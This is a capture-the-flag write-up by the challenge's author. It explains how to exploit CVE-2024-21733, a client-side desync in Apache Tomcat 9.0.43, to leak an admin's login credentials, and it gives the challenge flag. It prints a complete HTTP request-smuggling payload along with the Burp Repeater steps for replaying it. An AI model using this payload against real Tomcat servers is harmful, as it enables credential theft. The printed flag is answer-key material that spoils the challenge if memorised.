





# Blood In Blood Out
Author: LOLASL

Flag: `EPT{vatos_locos_4_ever_ese!_<3}`
## Description
```
Hey carnal, sometimes you gotta slide in a little extra something for the homies. 
Theres a placa looking every minute so keep it tight, ese.

*Access the challenge on https://challengevm*
```

## Provided challenge files
* [bloodinbloodout_source.tar.gz](../bloodinbloodout_source.tar.gz)

## Notes from the creator

The inspiration for creating the challenge came from [this tweet](https://twitter.com/pyn3rd/status/1824101455969788274) and the resemblance with [the HeartBleed bug](https://heartbleed.com/) was the background for coming up with the "Blood In Blood Out"-theme. I realize that the provided source code might have caused more harm than good with some poorly written scripts that simulated admin login with an irrelevant cookie, as well as the selfsigned cert including the keystore pass etc. which also wasn't relevant for the challenge. I provided the source to make sure you didn't end up in a bruteforce, SQLi, or other form of login bypass rabbit hole as well as to highlight that it ran explicitly on tomcat:9.0.43. My apologies to those that spent countless hours on trying to find some crazy vuln or other weirdness in the provided source code and irrelevant files. I have also been made aware that some of the github POCs are less reliable than the approach used in my intended solution which might have caused some frustration.

Personally I agree with the author of the above tweet that this vulnerability to some extent has been underestimated. It has a CVSS score of 5.3, but as you will see yourself this could easily lead to a critical authentication bypass.

## Intended Solution

The intended path for solving this challenge was to identify that the application runs on Apache Tomcat 9.0.43. This information is revealed when getting a 404 response:



This is also explicitly defined in the provided Dockerfile:




A quick google search for "tomcat 9.0.43 vulnerabilities" should point you towards CVE-2024-21733. *Client-side de-sync (CSD) vulnerabilities occur when a web server fails to correctly process the Content-Length of POST requests* There are plenty of POCs and writeups on how to exploit this vulnerability and one of the first you find should be [this one by xer0dayz who originally found the vuln](https://hackerone.com/reports/2327341) that has a working payload out of the box:
 
``` http
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```

 
You can then use Burp to capture one of your own login submissions and copy/paste the above (just keep your original request line e.g. `POST /welcome.jsp HTTP/1.1`and the host header e.g. `Host: 10.128.3.73` from your request to target your victim host. Also remember to turn off (uncheck) the automatic content-length update in Burp when playing with desync/CL request smuggling.


If you then replay this with burp repeater the response should leak the credentials from the simulated admin login.



Now use these credentials in the login form:



Profit:



## Vatos Locos ##
I suppose most of you have neither heard of nor seen the movie Blood In Blood Out. Although I am not sure if it really withstands the test of time as the over-acting and endless amount of epic quotes might make it unintentionally hilarious, I still recommend giving this masterpiece from the 90s a watch! (Fun fact: This movie was actually produced by Disney!)